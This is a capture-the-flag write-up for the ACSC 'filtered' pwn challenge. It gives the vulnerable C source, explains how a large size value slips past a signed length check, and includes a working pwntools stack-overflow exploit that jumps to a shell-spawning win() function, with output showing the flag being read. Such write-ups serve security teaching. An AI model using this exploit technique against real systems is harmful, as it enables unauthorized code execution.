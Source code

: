 # filtered (pwn-100)

## Summary

We are given a binary file and its source code. Our mission is to connect to server, exploit it and get the flag.

```
nc filtered.chal.acsc.asia 9001
```

```c
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

/* Call this function! */
void win(void) {
  char *args[] = {"/bin/sh", NULL};
  execve(args[0], args, NULL);
  exit(0);
}

/* Print `msg` */
void print(const char *msg) {
  write(1, msg, strlen(msg));
}

/* Print `msg` and read `size` bytes into `buf` */
void readline(const char *msg, char *buf, size_t size) {
  char c;
  print(msg);
  for (size_t i = 0; i < size; i++) {
    if (read(0, &c, 1) <= 0) {
      print("I/O Error\n");
      exit(1);
    } else if (c == '\n') {
      buf[i] = '\0';
      break;
    } else {
      buf[i] = c;
    }
  }
}

/* Print `msg` and read an integer value */
int readint(const char *msg) {
  char buf[0x10];
  readline(msg, buf, 0x10);
  return atoi(buf);
}

/* Entry point! */
int main() {
  int length;
  char buf[0x100];

  /* Read and check length */
  length = readint("Size: ");
  if (length > 0x100) {
    print("Buffer overflow detected!\n");
    exit(1);
  }

  /* Read data */
  readline("Data: ", buf, length);
  print("Bye!\n");

  return 0;
}
```

Quickly peeking the source code, it turned out that this is a bof challenge.

## Solution

```c
/* Read and check length */
length = readint("Size: ");
if (length > 0x100) {
	print("Buffer overflow detected!\n");
	exit(1);
}
```

It's a bit tricky here. To bypass this snippet, we need to ensure that `length <= 0x100`. I try some random value like `1111111111111111` to make it negative (integer overflow).

Then, fire up our `gdb` and find the address of `win()` function.

```c
pwndbg> i func
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401090  write@plt
0x00000000004010a0  strlen@plt
0x00000000004010b0  read@plt
0x00000000004010c0  execve@plt
0x00000000004010d0  atoi@plt
0x00000000004010e0  exit@plt
0x00000000004010f0  _start
0x0000000000401120  _dl_relocate_static_pie
0x0000000000401130  deregister_tm_clones
0x0000000000401160  register_tm_clones
0x00000000004011a0  __do_global_dtors_aux
0x00000000004011d0  frame_dummy
0x00000000004011d6  win 	<= our address is right here
0x0000000000401217  print
0x000000000040124a  readline
0x00000000004012e5  readint
0x000000000040131b  main
0x0000000000401390  __libc_csu_init
0x0000000000401400  __libc_csu_fini
0x0000000000401408  _fini
```

There is no `ALSR` in this challenge so it's over:

```python
from pwn import *

r = remote('filtered.chal.acsc.asia', 9001)

print(r.recvline())
print(r.recv())

payload = b'1'*0x10 + b'a'*280 + p64(0x4011d6)
r.sendline(payload)

print(r.recv())
r.interactive()
```

Exploit:

```
[+] Opening connection to filtered.chal.acsc.asia on port 9001: Done
b'== proof-of-work: disabled ==\n'
b'Size: '
b'Data: '
[*] Switching to interactive mode
Bye!
$ ls
filtered
flag-08d995360bfb36072f5b6aedcc801cd7.txt
$ cat flag-08d995360bfb36072f5b6aedcc801cd7.txt
ACSC{GCC_d1dn'7_sh0w_w4rn1ng_f0r_1mpl1c17_7yp3_c0nv3rs10n}
```
